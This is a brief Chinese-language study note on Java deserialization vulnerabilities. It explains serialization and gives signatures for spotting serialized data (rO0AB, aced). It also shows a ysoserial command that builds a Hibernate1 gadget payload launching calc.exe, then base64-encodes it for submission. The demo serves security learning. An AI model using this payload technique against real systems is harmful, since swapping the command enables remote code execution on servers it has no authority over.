 ![image-20210825164252060](D:\BaiduNetdiskDownload\笔记\安全\WEB漏洞概述\反序列化漏洞\JAVA反序列化.assets\image-20210825164252060.png)

![image-20210825164505982](D:\BaiduNetdiskDownload\笔记\安全\WEB漏洞概述\反序列化漏洞\JAVA反序列化.assets\image-20210825164505982.png)

## 序列化和反序列化

```
序列化(Serialization): 将对象的状态信息转换为可以存储或传输的形式的过程。在序列化期间，对象将其当前状态写入到临时或持久性存储区。

反序列化:从存储区中读取该数据，并将其还原为对象的过程，称为反序列化。
```

下方的特征可以作为序列化的标志参考:

```
一段数据以rO0AB开头， 你基本可以确定这串就是JAVA序列化base64加密的数据。
或者如果以aced开头，那么他就是这一段java序列化的16进制。
```

## 案例：打开计算器

ysoserial工具生成payload

```
java -Dhibernate5 -cp hibernate-core-5.4.9.Final.jar;ysoserial-master-30099844c6-1. jar ysoserial.GeneratePayload Hibernate1 calc.exe >payload. bin
```

编码成base64

```
cat payload. bin | base64

echo "maibi" | base64			//base64加密
echo "bWFpYmkK" | base64 -d		//base64解密
```

提交base加密后的字符串

![image-20210827112713884](D:\BaiduNetdiskDownload\笔记\安全\WEB漏洞概述\反序列化漏洞\JAVA反序列化.assets\image-20210827112713884.png)
